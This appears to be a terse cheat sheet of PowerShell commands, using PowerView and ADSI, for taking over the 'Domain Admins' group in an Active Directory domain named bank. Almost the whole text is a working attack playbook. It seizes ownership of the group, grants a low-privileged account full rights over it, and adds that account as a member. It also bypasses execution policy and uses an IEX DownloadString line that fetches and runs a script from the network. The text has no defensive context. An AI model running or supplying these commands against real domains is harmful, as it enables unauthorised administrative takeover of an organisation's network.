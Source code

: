 #### Power view cheet
-----------------------------------------------------------------------
# Commands
>powershell -ep bypass

>Import-Module .\PowerView.ps1

>Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

>Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

>net group "domain admins" goodboy /add /domain

------------------------------------------------------------------------------------------------------------
# Import the AD module (requires RSAT or AD PowerShell tools)
>Import-Module ActiveDirectory

# Now try the command again
>$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

--------------------------------------------------------------------------------------------------------
>$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"

>$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity

------------------------------------------------------------------------------------------------------------
# Create the AD: drive if missing
>New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"

# Now get ACL
>$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

---------------------------------------------------------------------
# 1. Take ownership
>$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

>$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

>$group.psbase.CommitChanges()

# 2. Add self to group
>$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")


Key Explanations:

Permission	Why Needed
Modify owner	
Modify permissions	
Write properties	


---------------------------------------------------------------------------------
with ✔ Modify permissions

>IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

>Get-Command -Module PowerView

. (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
>Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
>Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
>Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
>Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

## with permission  - write all properties ✔ is  only enabled

### if powerview  fails
>$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
>$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")

---------------------------------------------------------------------------
### with permissions - ✔ modify owner is only enabled

>IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
. or downloade the script and run by import

>powershell -ep bypass
>Import-Module .\powerview.ps1

>Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

>Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Take ownership
>Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

# 2. Grant yourself GenericAll
>Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

# 3. Add to group
>Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose